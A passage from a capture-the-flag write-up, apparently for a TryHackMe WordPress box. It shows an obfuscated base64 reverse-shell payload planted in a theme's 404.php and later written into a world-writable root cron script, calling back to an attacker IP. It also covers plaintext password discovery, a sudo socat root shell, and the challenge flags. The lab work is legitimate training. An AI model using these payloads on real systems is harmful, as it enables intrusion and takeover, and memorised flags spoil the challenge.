

### Get reverse shell using 404.php editing

Since we have admin privileges, we can add php code to `404.php` page, and get reverse shell. I changed to theme "twentynineteen", because the twentytwenty didn't work for:

This is the location, `http://allinone/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentynineteen`

We can use the payload from `penelope`, this is what we add:
```php
system('printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzAuNjEvNDQ0NCAwPiYxKSAm|base64 -d|bash');
```



And now, just visit `http://allinone/wordpress/index.php/NotFound` and get the reverse shell.



### Find password of elyana in /etc/mysql/conf.d/private.txt

When we go to `elyana`'s home folder, it says we need to find the password of elyana
```bash
www-data@ip-10-82-190-227:/home/elyana$ cat hint.txt 
Elyana's user password is hidden in the system. Find it ;)
```

So, I searched for all files owned by `elyana`, with user read permission.



We can find the file `./etc/mysql/conf.d/private.txt`, which contain the password.
```bash
www-data@ip-10-82-190-227:/$ find -user elyana -perm -u+r 2>/dev/null
./home/elyana
./home/elyana/.local
./home/elyana/.local/share
./home/elyana/.cache
./home/elyana/user.txt
./home/elyana/.gnupg
./home/elyana/.bash_logout
./home/elyana/hint.txt
./home/elyana/.bash_history
./home/elyana/.profile
./home/elyana/.sudo_as_admin_successful
./home/elyana/.bashrc
./etc/mysql/conf.d/private.txt
www-data@ip-10-82-190-227:/$ cat ./etc/mysql/conf.d/private.txt
user: elyana
password: E@syR18ght
```

Okay, now we can `su` to elyana, and read the user flag.
```bash
www-data@ip-10-82-190-227:/home/elyana$ su elyana
Password: 
elyana@ip-10-82-190-227:~$ cat user.txt 
VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259
```
After base64 decoding we get:
```bash
THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}
```

### Privilege Escalation to Root - PATH 1

When we check `sudo` permissions, we can detect the binary `/usr/bin/socat`.

```bash
elyana@ip-10-82-190-227:~$ sudo -l
Matching Defaults entries for elyana on ip-10-82-190-227:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elyana may run the following commands on ip-10-82-190-227:
    (ALL) NOPASSWD: /usr/bin/socat
```

Using [https://gtfobins.github.io/gtfobins/socat/](https://gtfobins.github.io/gtfobins/socat/) we can get PE,

> It can be used to break out from restricted environments by spawning an interactive system shell.
The resulting shell is not a proper TTY shell and lacks the prompt.

    socat stdin exec:/bin/sh


Let's try this:
```bash
elyana@ip-10-82-190-227:~$ sudo socat stdin exec:/bin/sh
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9
```



After base64 decoding we get:
```bash
THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}
```

### Privilege Escalation to Root - PATH 2

When checking the `crontab`, we can see it executes `/var/backups/script.sh` with root privileges.
```bash
elyana@ip-10-82-190-227:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /var/backups/script.sh
```



When I checked the permissions of this file, i was shocked.



```bash
elyana@ip-10-82-190-227:~$ ls -la /var/backups/script.sh
-rwxrwxrwx 1 root root 73 Oct  7  2020 /var/backups/script.sh
```

This is game over, we could have use this script before even getting `elyana` user, just execute this line:
```bash
echo -e 'printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzAuNjEvNDQ0NCAwPiYxKSAm|base64 -d|bash' > /var/backups/script.sh
``` 

and wait one minute. We should get the reverse shell in our `penelope`:



```bash
root@ip-10-82-190-227:~# cat root.txt 
VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9
```

After base64 decoding we get:
```bash
THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}
```
